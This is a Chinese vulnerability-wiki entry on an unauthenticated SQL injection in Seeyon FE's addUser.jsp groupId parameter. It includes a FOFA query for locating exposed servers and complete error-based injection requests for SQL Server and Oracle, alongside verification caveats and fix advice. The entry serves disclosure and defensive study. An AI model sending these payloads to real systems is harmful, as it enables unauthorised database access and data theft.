


# 致远FE addUser.jsp groupId SQL注入

## 条目说明

- 对象与具体问题：致远FE；addUser.jsp groupId SQL注入
- 版本、配置及部署条件：<=20250224声称；SQL Server及Oracle分别样本
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 主CVE2025-2030需官方确认产品/日期build；双DB错误样本应分组不视重复
- 在野利用已知无证据，修复只安全版本无具体号

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

致远互联FE_addUser处存在sql注入漏洞，未授权的攻击者可获取数据库敏感信息。

## 影响版本

版本号20250224及之前版本

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="li_plugins_download"

POC/EXP：SQL SERVER数据库报错注入

```http
GET /security/addUser.jsp?groupId=1)%20AND%206430%20IN%20(SELECT%20(CHAR(113)+CHAR(113)+CHAR(107)+CHAR(118)+CHAR(113)+(SELECT%20(CASE%20WHEN%20(6430=6430)%20THEN%20CHAR(49)%20ELSE%20CHAR(48)%20END))+CHAR(113)+CHAR(107)+CHAR(113)+CHAR(120)+CHAR(113)))%20AND%20(6426=6426 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

```




POC/EXP：Oracle

```http
GET /security/addUser.jsp?groupId=1)%20AND%203862=(SELECT%20UPPER(XMLType(CHR(60)||CHR(58)||CHR(113)||CHR(120)||CHR(112)||CHR(107)||CHR(113)||(SELECT%20(CASE%20WHEN%20(3862=3862)%20THEN%201%20ELSE%200%20END)%20FROM%20DUAL)||CHR(113)||CHR(98)||CHR(113)||CHR(98)||CHR(113)||CHR(62)))%20FROM%20DUAL)%20AND%20(9318=9318 HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
